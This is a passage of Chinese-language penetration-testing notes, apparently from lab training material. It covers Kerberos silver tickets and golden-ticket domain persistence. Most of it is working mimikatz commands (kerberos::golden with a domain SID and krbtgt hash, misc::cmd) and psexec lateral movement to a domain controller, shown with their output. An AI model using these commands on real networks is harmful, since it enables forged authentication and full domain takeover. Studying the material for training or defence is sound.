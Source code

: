 ```

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
   Server Name       : HTTP/CorpWebServer.corp.com @ corp.com
   Client Name       : offsec @ corp.com
   Flags 40a00000    : pre_authent ; renewable ; forwardable ;
```

注意：要创建银票，我们使用密码哈希而不是明文密码。如果 kerberoast 会话向我们提供了明文密码，我们必须在使用它生成银票之前对其进行哈希处理。

现在我们已将这张票加载到内存中，我们可以与服务交互并根据我们放入银票中的组成员身份访问任何信息。根据服务的类型，也有可能获得代码执行

# 域持久性

## 金票

前提：需要krbtgt的NTML信息

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
User      : fakeuser
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: 75b60230a2394a812000dbfad8415965 - rc4_hmac_nt
Lifetime  : 14/02/2018 15.08.48 ; 12/02/2028 15.08.48 ; 12/02/2028 15.08.48
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
```

将金票注入内存后，我们可以使用misc::cmd启动新的命令提示符，并再次尝试使用 PsExec 横向移动。

```
C:\Users\offsec.crop> psexec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7959:aaad:eec:3969%2
   IPv4 Address. . . . . . . . . . . : 192.168.1.110
```
